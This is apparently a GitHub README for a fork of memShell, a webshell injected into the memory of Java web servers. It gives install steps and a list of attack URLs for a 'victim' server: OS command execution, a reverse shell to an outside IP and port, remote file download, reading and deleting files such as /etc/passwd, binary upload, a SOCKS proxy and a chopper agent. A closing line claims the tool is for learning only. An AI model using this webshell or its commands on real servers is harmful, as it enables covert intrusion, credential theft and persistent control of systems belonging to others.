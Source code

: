 # memShell のフォークほしくなった機能を追加していく
- ファイルアップロード用のページの追加 binupload

agent.jarに対して機能追加をする。<BR>
コンパイル+source.txtの書き換え後、agent/net を 上書きする。<BR>
inject.jarはそのまま使用する。<BR>
```
"C:\Program Files\Java\jdk1.8.0_202\bin\jar.exe" cvfm agent.jar META-INF\MANIFEST.MF .
```

# memShell
a webshell resides in the memory of java web server

# install
* unzip memShell.zip
* cd memShell
* java -jar inject.jar
# usage
* anyurl?pass_the_world=pass //show this help page.  
* anyurl?pass_the_world=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pass_the_world=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pass_the_world=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pass_the_world=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pass_the_world=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pass_the_world=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pass_the_world=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pass_the_world=pass&model=chopper  //start a chopper server agent on the victim.  

**!!!It is recommended to use the POST method to submit data.** 

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
